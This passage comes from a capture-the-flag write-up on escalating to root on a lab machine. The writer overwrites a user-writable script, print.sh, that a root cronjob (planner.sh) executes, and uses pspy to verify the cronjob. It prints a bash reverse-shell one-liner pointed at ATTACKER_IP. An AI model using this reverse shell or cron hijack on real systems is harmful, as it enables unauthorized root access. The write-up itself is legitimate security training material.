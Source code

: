 Since we can read **planner.sh** as a non-root user, we can find out what it does:

![screenshot24](../assets/images/startup/screenshot24.png)

It looks like it echoes the contents of **$LIST** into **startup_list.txt**, before running **/etc/print.sh**. Let's now take a look at **/etc/print.sh**.

![screenshot25](../assets/images/startup/screenshot25.png)

All it does is `echo "Done!`. With that said, **print.sh** actually belongs to **lennie**! This means that we are able to write over it and since it's a bash script, we can have it execute anything we want, such as opening a **reverse shell**. We'll be using the bash reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

```
bash -i >& /dev/tcp/ATTACKER_IP/<PORT_HERE> 0>&1
```

Now, we just have to figure out how we can execute **planner.sh** as **root**, which will then subsequently execute **print.sh** and open  up the reverse shell with root privileges.

At this point, I had an inkling that **planner.sh** was most probably being run as a **cronjob** by root. To verify this, we can use a nifty program called [pspy](https://github.com/DominicBreuker/pspy/blob/master/README.md), which allows us to snoop on processes without the need for root permissions. This tool will tell us what cronjobs root is running without needing root permissions. 

After uploading the **pspy32** executable onto the SSH server, we can then execute it:

![screenshot26](../assets/images/startup/screenshot26.png)

As we can see, the **planner.sh** was automatically run with the UID=0 (root). This confirms that it is indeed a cronjob belonging to root!

Now, all we have to do is set up our netcat listener, sit back and relax.
